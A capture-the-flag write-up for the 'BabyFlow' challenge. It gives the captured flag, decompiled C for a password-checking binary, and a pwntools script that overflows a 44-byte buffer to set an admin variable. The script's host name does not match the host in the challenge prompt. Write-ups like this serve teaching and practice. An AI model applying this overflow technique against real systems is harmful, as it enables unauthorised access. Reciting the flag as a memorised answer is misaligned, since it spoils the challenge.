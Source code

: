 ```yaml
---
title: BabyFlow
categories: 
  - Miscellaneous
  - "Binary Exploitation"
tags: 
completedDuringEvent: true
submitted: true
flags: INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}
draft: false
---
```

## Scenario

> Does this login application even work?!
>
> `nc babyflow.ctf.intigriti.io 1331`

By CryptoCat

## Solution

The binary is a simple program that reads a password from the user and compares it to a hardcoded password. If the password is correct and the variable `v5` is non-zero, it prints the flag. The input buffer is 50 bytes long, and the variable `s` length is 44 bytes. We can overflow the buffer and overwrite the variable `v5` to a non-zero value to get the flag.

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[44]; // [rsp+0h] [rbp-30h] BYREF
  int v5; // [rsp+2Ch] [rbp-4h]

  v5 = 0;
  printf("Enter password: ");
  fgets(s, 50, _bss_start);
  if ( !strncmp(s, "SuPeRsEcUrEPaSsWoRd123", 0x16uLL) )
  {
    puts("Correct Password!");
    if ( v5 )
      puts("INTIGRITI{the_flag_is_different_on_remote}");
    else
      puts("Are you sure you are admin? o.O");
    return 0;
  }
  else
  {
    puts("Incorrect Password!");
    return 0;
  }
}
```

To exploit this, we need to send a password that matches the hardcoded one and then add additional bytes to overflow the buffer and set `v5` to a non-zero value. We can use the `cyclic` function from the `pwntools` library to generate the necessary padding.

Here is a Python script to achieve this:

```py
from pwn import *

r = remote('irrorversible.ctf.intigriti.io', 1331)

r.recvuntil(b'Enter password: ')

password = b'SuPeRsEcUrEPaSsWoRd123'
payload = flat([
    password,
    cyclic(44 - len(password))
])

r.sendline(payload)

r.interactive()
```
